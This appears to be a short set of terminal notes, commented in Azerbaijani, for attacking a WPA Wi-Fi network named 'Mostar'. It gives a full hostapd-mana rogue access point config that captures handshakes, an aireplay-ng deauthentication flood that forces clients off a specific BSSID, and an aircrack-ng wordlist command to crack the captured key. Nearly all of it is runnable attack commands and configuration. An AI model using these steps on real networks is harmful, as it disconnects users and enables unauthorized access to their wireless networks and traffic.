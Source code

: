 kali@kali:~$ cat Mostar-mana.conf
```
interface=wlan0
ssid=Mostar
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/kali/mostar.hccapx
```

kali@kali:~$ sudo hostapd-mana Mostar-mana.conf 

ise salan kimi clientleri ayirib, tezeden qosulmaga mecbur eliyirik

kali@kali:~$ sudo aireplay-ng -0 0 -a FC:7A:2B:88:63:EF wlan1mon


aircrack-ng mostar.hccapx -e Mostar -w /usr/share/john/password.lst

sonrada sindir getsin
